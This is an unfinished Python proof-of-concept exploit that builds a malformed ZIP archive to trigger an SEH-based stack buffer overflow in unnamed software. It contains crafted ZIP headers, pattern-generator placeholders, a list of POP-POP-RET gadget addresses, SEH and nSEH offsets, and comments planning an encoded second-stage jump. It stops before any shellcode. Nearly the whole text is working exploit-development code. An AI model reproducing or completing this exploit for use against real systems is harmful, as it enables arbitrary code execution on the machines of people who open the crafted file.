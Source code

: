 ## Exploit

```python
#!/usr/bin/python

header_1 = ("\x50\x4B\x03\x04\x14\x00\x00\x00\x00\x00\xB7\xAC\xCE\x34\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x00\x00\xe4\x0f\x00\x00\x00")

header_2 = ("\x50\x4B\x01\x02\x14\x00\x14\x00\x00\x00\x00\x00\xB7\xAC\xCE\x34\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe4\x0f\x00\x00\x00\x00\x00\x00\x01\x00"
"\x24\x00\x00\x00\x00\x00\x00\x00")

header_3 = ("\x50\x4B\x05\x06\x00\x00\x00\x00\x01\x00\x01\x00"
"\x12\x10\x00\x00\x02\x10\x00\x00\x00\x00")

# msf-pattern_create -l 4064
pattern4064 = "Aa0Aa1...SNIP"

# msf-pattern_create -l 294
pattern294 = "Aa0Aa1...SNIP"

"""
gadgets:

00401554  |. 5E             POP ESI
00401555  |. 5B             POP EBX
00401556  |. C3             RETN

00401580  |. 5E             POP ESI
00401581  |. 5B             POP EBX
00401582  \. C3             RETN

0040159D  |. 5E             POP ESI
0040159E  |. 5B             POP EBX
0040159F  |. C3             RETN

004015B9  |. 5E             POP ESI
004015BA  |. 5B             POP EBX
004015BB  \. C3             RETN

00401641  |. 5E             POP ESI
00401642  |. 5B             POP EBX
00401643  \. C3             RETN

"""

print "[+] Building PoC.."

max_size = 4064
seh_offset = 298
nseh_offset = seh_offset - 4
jmp_offset = 202

#payload = "A" * max_size
#payload = pattern4064 # SEH at 298
#payload = 'A' * nseh_offset

#payload = pattern294

# 0x0019F868
# stage2
# align esp after decoder
# encode and-sub 0x0019F868 into eax; push eax; pop esp;
```
